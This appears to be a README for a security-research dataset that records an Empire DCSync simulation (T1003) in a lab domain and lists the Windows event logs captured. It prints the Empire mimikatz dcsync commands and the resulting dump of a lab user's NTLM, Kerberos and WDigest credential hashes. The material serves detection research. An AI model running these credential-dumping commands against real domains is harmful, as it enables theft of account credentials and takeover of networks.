 
# Empire DCSync

An adversary with replication permissions (default in Domain Admins) can use the active directory replication apis to pull the NTLM hash of any user in the network.

## Technique(s) ID

T1003

## Creators

Roberto Rodriguez [@Cyb3rWard0g](https://twitter.com/Cyb3rWard0g)

## Dataset

[empire_dcsync.tar.gz](./empire_dcsync.tar.gz)

## Network Environment

Shire

## Time Taken

2019-03-01174830

## About this file

| log_name                                 | task                                                   |   events_count  |
|------------------------------------------|--------------------------------------------------------|-----------------|
| Windows PowerShell                       | Pipeline Execution Details                             |            2249 |
| Windows PowerShell                       | Provider Lifecycle                                     |               8 |
| Windows PowerShell                       | Engine Lifecycle                                       |               1 |
| System                                   | Service State Event                                    |               9 |
| Security                                 | User Account Management                                |             160 |
| Security                                 | Filtering Platform Connection                          |             139 |
| Security                                 | Token Right Adjusted Events                            |             109 |
| Security                                 | Group Membership                                       |               6 |
| Security                                 | Logoff                                                 |               6 |
| Security                                 | Logon                                                  |               6 |
| Security                                 | Process Termination                                    |               4 |
| Security                                 | Special Logon                                          |               4 |
| Security                                 | Directory Service Access                               |               3 |
| Security                                 | File Share                                             |               3 |
| Security                                 | Other Object Access Events                             |               2 |
| Security                                 | Detailed File Share                                    |               1 |
| Microsoft-Windows-Sysmon/Operational     | Process accessed (rule: ProcessAccess)                 |             171 |
| Microsoft-Windows-Sysmon/Operational     | Image loaded (rule: ImageLoad)                         |              88 |
| Microsoft-Windows-Sysmon/Operational     | Network connection detected (rule: NetworkConnect)     |              60 |
| Microsoft-Windows-Sysmon/Operational     | Registry object added or deleted (rule: RegistryEvent) |              39 |
| Microsoft-Windows-Sysmon/Operational     | Pipe Connected (rule: PipeEvent)                       |              20 |
| Microsoft-Windows-Sysmon/Operational     | File created (rule: FileCreate)                        |               9 |
| Microsoft-Windows-Sysmon/Operational     | Pipe Created (rule: PipeEvent)                         |               2 |
| Microsoft-Windows-Sysmon/Operational     | Process Create (rule: ProcessCreate)                   |               2 |
| Microsoft-Windows-Sysmon/Operational     | RawAccessRead detected (rule: RawAccessRead)           |               2 |
| Microsoft-Windows-PowerShell/Operational | Executing Pipeline                                     |            2325 |

## Empire Activity

```
usemodule credentials/mimikatz/dcsync
set domain shire.come
set user pgustavo
set dc HFDC01.shire.com
execute
```

```
  .#####.   mimikatz 2.1.1 (x64) #17763 Feb 23 2019 12:03:02
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo) ** Kitten Edition **
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz(powershell) # lsadump::dcsync /user:pgustavo /domain:shire.com /dc:HFDC01.shire.com
[DC] 'shire.com' will be the domain
[DC] 'HFDC01.shire.com' will be the DC server
[DC] 'pgustavo' will be the user account

Object RDN           : Pedro Gustavo

** SAM ACCOUNT **

SAM Username         : pgustavo
User Principal Name  : pgustavo@shire.com
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   : 
Password last change : 1/14/2019 12:20:18 PM
Object Security ID   : S-1-5-21-2511471446-1103646877-3980648787-1107
Object Relative ID   : 1107

Credentials:
  Hash NTLM: 8ece039f32592670b45fc801e2a9157d
    ntlm- 0: 8ece039f32592670b45fc801e2a9157d
    lm  - 0: 15e09e2518ec09060eb8d5e3edca688b

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 2a41aad084dd4b0f85542de96ec0d713

* Primary:Kerberos-Newer-Keys *
    Default Salt : SHIRE.COMpgustavo
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : e9090c842bd528e456efc9912d417e0fba163d185cf11e803a75299c112ccf71
      aes128_hmac       (4096) : a45b256dcf19e05e7be415c8f8b74df3
      des_cbc_md5       (4096) : 40c4aef2ad988352

* Primary:Kerberos *
    Default Salt : SHIRE.COMpgustavo
    Credentials
      des_cbc_md5       : 40c4aef2ad988352

* Packages *
    NTLM-Strong-NTOWF

* Primary:WDigest *
    01  581eb1df6c6053b76a28a0dce36a8d6f
    02  7527b4ed5fdb8d86b3aae51bfa369d09
    03  1afb1ea2a11dacbaa9a7de3cdba90d2e
    04  581eb1df6c6053b76a28a0dce36a8d6f
    05  7527b4ed5fdb8d86b3aae51bfa369d09
    06  71ae329e68bc24b2c4aa77275ddbb153
    07  581eb1df6c6053b76a28a0dce36a8d6f
    08  beb04fe3623809f7bacf7e37109d4d21
    09  beb04fe3623809f7bacf7e37109d4d21
    10  dcbadc06749ae53ff0a5b12fea3117ca
    11  b4fba84ff02a3bf713d6de143ed08a04
    12  beb04fe3623809f7bacf7e37109d4d21
    13  f70d458543eeb1491b108783723d5250
    14  b4fba84ff02a3bf713d6de143ed08a04
    15  eb84c71ed69b32bc4def1ad8a50a3fec
    16  eb84c71ed69b32bc4def1ad8a50a3fec
    17  58e1d74ac34fc6fcc20d947e4bf5e3a9
    18  73eb0629757be77aa4a5a9c1a782658a
    19  60f5c9eefaacae631e229fd15f70ad92
    20  df090cdf058cdbda7bc78a57d2241a9a
    21  286470c2e82b1e8316b1a5198b9c72ec
    22  286470c2e82b1e8316b1a5198b9c72ec
    23  689bbadaae7f867861432adf3e385396
    24  91ff8d6376c52d90415254b0444b497b
    25  91ff8d6376c52d90415254b0444b497b
    26  bc4e42e3164f8e5d01f1b92fc75370ee
    27  535147dcae01ac8505ce306cdcbdfb97
    28  1aa7a460e6e4b2a1431c819b26626241
    29  6348ec8df577d8d1eb401cc5e29ee763
```